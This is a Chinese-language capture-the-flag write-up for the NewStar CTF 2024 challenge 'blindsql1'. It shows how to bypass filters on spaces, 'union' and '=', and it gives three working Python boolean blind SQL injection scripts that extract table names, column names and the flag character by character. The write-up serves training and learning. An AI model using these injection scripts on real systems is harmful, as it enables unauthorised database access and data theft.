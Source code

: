 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# blindsql1

能够根据姓名查询成绩

![正常查询](/assets/images/wp/2024/week3/blindsql1_1.png)

加入单引号时，查询失败，说明存在注入

![存在注入](/assets/images/wp/2024/week3/blindsql1_2.png)

尝试 `Alice' or 1=1#`<span data-desc>（注意 `#` 要 URL 编码成 `%23`）</span>时，提示空格被禁用了

![空格被禁用](/assets/images/wp/2024/week3/blindsql1_3.png)

多次尝试，会发现 `union` `=` `/` 都被禁用了。

`union` 被禁用，说明此时该使用盲注，我们能够通过插入 `and 1` 或者 `and 0` 来控制是否返回数据，由此可以使用布尔盲注

`=` 的绕过可以使用 `like` 或者 `in` 代替

空格和斜杠 `/` 被禁用，可以使用括号代替

---

爆破表名

```python

import requests,string,time

url = ''

result = ''
for i in range(1,100):
    print(f'[+] Bruting at {i}')
    for c in string.ascii_letters + string.digits + '_-{}':
        time.sleep(0.2) # 限制速率，防止请求过快

        print('[+] Trying:', c)

        # 这条语句能查询到当前数据库所有的表名
        tables = f'(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)like(database())))'

        # 获取所有表名的第 i 个字符，并计算 ascii 值
        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该 ascii 值
        b = f'(({char})in({ord(c)}))'

        # 若 ascii 猜对了，则 and 后面的结果是 true，会返回 Alice 的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url, params={'student_name': p})

        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```

爆破 `secrets` 表的列名

```python

import requests,string,time

url = ''

result = ''
for i in range(1,100):
    print(f'[+] Bruting at {i}')
    for c in string.ascii_letters + string.digits + ',_-{}':
        time.sleep(0.01) # 限制速率，防止请求过快

        print('[+] Trying:', c)

        tables = f'(Select(group_concat(column_name))from(infOrmation_schema.columns)where((table_name)like(\'secrets\')))'

        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该 ascii 值
        b = f'(({char})in({ord(c)}))'

        # 若 ascii 猜对了，则 and 后面的结果是 true，会返回 Alice 的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url, params={'student_name': p})

        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```

爆破 flag

```python
import requests,string,time

url = ''

result = ''
for i in range(1,100):
    print(f'[+] Bruting at {i}')
    for c in string.ascii_letters + string.digits + ',_-{}':
        time.sleep(0.01) # 限制速率，防止请求过快

        print('[+] Trying:', c)

        tables = f'(Select(group_concat(secret_value))from(secrets)where((secret_value)like(\'flag%\')))'

        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该 ascii 值
        b = f'(({char})in({ord(c)}))'

        # 若 ascii 猜对了，则 and 后面的结果是 true，会返回 Alice 的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url, params={'student_name': p})

        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```
